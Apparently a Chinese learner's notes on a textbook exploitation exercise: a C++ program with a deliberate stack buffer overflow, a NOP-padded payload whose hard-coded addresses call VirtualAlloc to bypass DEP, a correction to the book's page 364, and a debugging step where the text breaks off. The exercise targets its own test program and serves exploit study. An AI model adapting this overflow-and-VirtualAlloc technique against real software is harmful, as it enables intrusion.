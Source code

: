```C++
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h> 
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
"\x90\x90\x90\x90"

"\xe5\xe0\x72\x7d"//修正 EBP retn 4 
"\xE1\x9A\x80\x7C"//call VirtualAlloc 
"\x90\x90\x90\x90" 
"\xFF\xFF\xFF\xFF"//-1 当前进程 
"\x00\x00\x03\x00"//申请空间起始地址
"\xFF\x00\x00\x00"//申请空间大小
"\x00\x10\x00\x00"//申请类型 
"\x40\x00\x00\x00"//申请空间访问类型 

;
void test()
{
	char tt[176]; 
	memcpy(tt,shellcode,450);
}
int main()
{
	_asm int 3;
	HINSTANCE hInst = LoadLibrary("shell32.dll"); 
	
	char temp[200];
	test(); 
	return 0;
}

```
>纠正书中代码错误：
>P364中对"\xBC\x45\x82\x7C"的注释应该改为VirtualMalloc地址。

修正ebp指令地址：0x7d72e0e5  
在此处下断点，跟随：  
